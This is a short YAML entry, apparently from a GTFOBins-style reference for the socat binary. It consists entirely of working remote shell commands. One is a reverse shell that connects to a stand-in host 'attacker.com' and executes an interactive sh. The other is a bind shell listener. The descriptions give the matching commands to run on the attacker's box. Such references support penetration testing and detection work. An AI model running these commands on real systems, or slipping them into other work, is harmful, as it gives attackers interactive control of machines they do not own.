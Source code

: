 ```yaml
---
functions:
  reverse-shell-interactive:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        socat tcp-connect:$RHOST:$RPORT exec:sh,pty,stderr,setsid,sigint,sane
  bind-shell-interactive:
    - description: Run ``socat FILE:`tty`,raw,echo=0 TCP:target.com:12345`` on the attacker box to connect to the shell.
      code: |
        LPORT=12345
        socat TCP-LISTEN:$LPORT,reuseaddr,fork EXEC:sh,pty,stderr,setsid,sigint,sane
---
```

